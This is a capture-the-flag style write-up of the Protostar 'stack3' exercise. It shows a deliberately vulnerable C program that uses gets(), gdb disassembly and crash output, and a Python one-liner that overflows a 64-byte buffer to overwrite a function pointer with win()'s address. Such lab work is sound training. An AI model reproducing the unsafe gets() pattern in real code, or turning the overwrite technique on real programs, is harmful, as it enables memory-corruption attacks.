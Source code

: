 # PROTOSTAR : STACK 3
[Protostar:Stack3](https://exploit.education/protostar/stack-three/)

### **SOURCE CODE**
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

We need to fill the **buffer** variable first then append the address of the **win()** function so that the poiner ***fp** goes to the **win()** function.

### **SOLUTION**

Below is the disassembly of the **main()** function
```
user@protostar:/opt/protostar/bin$ gdb -q stack3
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave  
0x08048478 <main+64>:   ret    
End of assembler dump.
(gdb) 
```

Running input and analyzing the program. **Padding = 68** and as you can see the function pointer jumps to **0x41414141** but since it is not a valid memory address it show **Segmentation Fault**.
```
(gdb) b *0x08048450
Breakpoint 1 at 0x8048450: file stack3/stack3.c, line 18.
(gdb) r
Starting program: /opt/protostar/bin/stack3 

Breakpoint 1, 0x08048450 in main (argc=1, argv=0xbffff874) at stack3/stack3.c:18
18      stack3/stack3.c: No such file or directory.
        in stack3/stack3.c
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
calling function pointer, jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) 
```

Now lets replace the last four bytes with the address of the **win()** function. Before replacing, lets find the address of the win function first.
```
user@protostar:/opt/protostar/bin$ objdump -t stack3 | grep "win"
08048424 g     F .text  00000014              win 
```


Filled the **buffer** then appended the string with the address of the **win()** function.
```
user@protostar:/opt/protostar/bin$ (python -c "print 'A'*64 + '\x24\x84\x04\x08'") | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

